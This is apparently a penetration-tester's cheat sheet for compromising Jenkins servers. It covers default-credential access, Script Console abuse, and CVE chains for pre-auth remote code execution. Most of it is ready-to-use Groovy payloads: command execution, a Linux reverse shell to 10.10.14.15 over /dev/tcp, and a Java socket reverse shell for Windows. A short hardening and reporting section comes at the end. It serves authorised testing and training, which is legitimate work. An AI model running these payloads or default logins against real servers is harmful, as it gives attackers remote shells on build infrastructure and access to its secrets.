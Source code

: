 ### **Initial Access**

- Jenkins commonly found running with **SYSTEM/root privileges**
- Script Console at `/script` enables **arbitrary code execution**
- Access via weak/default credentials (e.g., `admin:admin`) or unauthenticated instances

---

### **Script Console Abuse**

- Console accepts **Groovy scripts**, compiled to Java bytecode
- Useful for command execution or launching reverse shells

#### **Run Basic Command**
```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

#### **Linux Reverse Shell**
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### **Windows Command Execution**
```groovy
def cmd = "cmd.exe /c dir".execute()
println("${cmd.text}")
```

#### **Windows Reverse Shell (Java)**
```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(), pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(), so=s.getOutputStream();
while(!s.isClosed()){
  while(pi.available()>0)so.write(pi.read());
  while(pe.available()>0)so.write(pe.read());
  while(si.available()>0)po.write(si.read());
  so.flush(); po.flush(); Thread.sleep(50);
  try { p.exitValue(); break; } catch (Exception e){}
}
p.destroy(); s.close();
```

---

### **Exploitation of Known Vulnerabilities**

#### **CVE-2018-1999002 & CVE-2019-1003000**

- Chain to achieve **pre-auth RCE**
- Bypasses **Groovy sandbox** and **ACL**
- Works against Jenkins **v2.137**

#### **Jenkins v2.150.2**

- Authenticated users with **JOB creation & BUILD privileges** can get RCE via Node.js
- If **anonymous access** is enabled, no credentials required

---

### **Security Notes**

- Jenkins should be **hardened**: remove anonymous access, enforce least privilege
- RCE via script console is **built-in**, not a bug—highlight risk of misconfigurations
- Always note down:
    
    - **Script paths** and **payloads**
    - Any **changes made**
    - **Cleanup steps** in the final report